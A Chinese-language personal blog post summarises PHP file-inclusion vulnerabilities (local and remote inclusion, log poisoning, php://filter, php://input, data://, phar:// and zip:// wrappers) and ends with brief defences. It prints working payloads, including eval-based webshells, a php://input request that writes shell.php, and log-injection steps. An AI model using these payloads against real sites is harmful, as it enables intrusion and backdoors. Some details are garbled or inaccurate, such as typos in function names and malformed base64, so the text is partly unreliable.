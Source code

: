 ```yaml
---
layout:     post
title:      文件包含漏洞整理
subtitle:   个人小结
date:       2019-4-26
author:     k
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```


> 走先人的路，后人少走路。

# 前言 小弟新人,大神勿喷

原理:

  文件包含漏洞说白了就是代码注入的一种,就是在用户可控的条件下,去执行一段恶意代码.
  
  常见的文件包含函数有以下几种:
  
       PHP:include() include_once() require() require_once() fopen() readfile()
       JSP/Servlet: ava.io.file() java.io.filereader()
       ASP: include file   include virtual
     
 文件包含漏洞的形成,需要满足俩个条件:
  
       用户能够控制这个动态变量
       include()等函数通过动态变量的方式引入需要包含的文件
     
 我们主要介绍php里的几个重要的函数:
      
      include()函数 当使用函数包含文件时,只有代码执行到include()函数时才可以将函数包含进来.发生错误,但不会停止,继续向下执行.
      
      require()函数  require()函数与include()的区别在于require()执行如果发生错误,会立即停止执行. 使用request()函数包含文件时,只要程序一执行,立即调查文件,而include()只有程序执行到该函数时才调用.
      
 文件包含最简代码:  
         
         <?php include($_POST['cmd']);?>  cmd=./1.php(相对路径下有可执行的文件木马)&cmd=phpinfo();(木马密码)
         
         
本地文件包含(LFI)

    能够读取或执行包含本地文件(指服务器)的漏洞,称为本地文件包含漏洞
    
 远程文件包含(RFI)
 
     如果php.ini的配置选项allow_url_fopen,allow_url_include为ON的话,文件包含函数是可以加载远程文件的,这种漏洞称为远程文件包含漏洞.利用远程包含漏洞可以执行任意命令.
     
     
包含日志文件

     web服务器，基本上把请求写入到他的日志文件中，有的是access.log，有的是error.log，所以， 我们可以尝试，写一些奇怪的数据，例如<?php eval($_POST['cmd'])?>，然后呢让访问出错， 这个就会被记录到日志文件中去，然后，我们利用本地包含，去包含这个日志文件，相当于我们 得到了一个shell。
     可以在url里面写入shell数据，也可以在referer或者ua中写入，但是，这个写入尽量要使用抓包工 具，例如burp来写入，因为浏览器，会给我们转码。造成包含不成功。
      

前面的基础概念我没了解的差不多了,接下来才是主菜


  PHP伪协议:
  
     file协议  当存在某个用户可控制,并可以访问制作的输入点时,我们可以尝试输入 file://去获取本地文件(读取的时目录下的普通文件)
     使用条件: allow_url_fopen  on/off      allow_url_include  on/off
     使用方法:www.test.com?file=file://C:/windows/1.txt 当读取脚本文件的时候，不能够直接使用，需要使用convert.base64encode加密，将数据读取出来，再解码。要读取脚本文件的时候，就要配 合使用另一个协议：php://filtter/convert.base64-encode/resource=文件路径
     
     
     php://filter协议  对本地磁盘文件进行读写(读取脚本文件) 
     使用条件： allow_url_fopen on/off    allow_url_include  on/off
     读脚本文件 www.test.com?file=php://filter/read/convert.base64encode/resource=./index.php(或者其他读取文件中含有PHP代码的时候，就要使用base64编码转换)
     与file协议的区别在于  file协议只能使用绝对路径，filter协议相对路径和绝对路径都可以使用
     
      php://input 协议
      使用条件 allow_url_fopen  on/off         allow_url_include  on
      www.test.com?file=php://input [POST]<?php phpinfo();?>      <?php fputs(fopen("shell.php","w"),"<?php eval(\$_POST['cmd']);?>");?> 

      
      data:// 协议
      使用条件 allow_url_fopen  on     allow_url_include  on          条件：php>=5.2
      www.test.com?file=data://text/plain,<?php phpinfo();?> www.test.com?file=data://text/plain;base64,Jmx0Oz9waHAgc GhwaW5mbygpOz8mZ3Q7
      www.test.com?file=data:text/plain,<?php phpinfo();?> www.test.com?file=data:text/plain;base64,Jmx0Oz9waHAgc GhwaW5mbygpOz8mZ3Q7

      
      phar:// 协议
      利用条件：php版本大于5.3.0 读取压缩包内的文件(相对路径或者绝对路径) 可以用来包含一个shell         条件：php>=5.30
      
      
      zip://协议
      利用条件：php版本大于5.3.0 读取zip压缩包内文件(绝对路径) 可以用来包含一个shell
      条件：php>=5.30
      
      
      
文件包含漏洞的防御:

    在php中，文件包含需要配置 allow_url_include=On(远程文件包含)、allow_url_fopen=On(本地文件包含) 。所以，我们可以将其关闭，这样就可以杜绝文件包含漏洞了。但是，某些情况下，不能将其关闭，必须进行包含的话，我们可以使用白名单过滤的方法，只能包含我们指定的文件。这样，就可以杜绝文件包含漏洞了。      
      
      
      
      
      
      
      
      
      
      
      
      
      
      
      
      
      
      
      
      
       
     
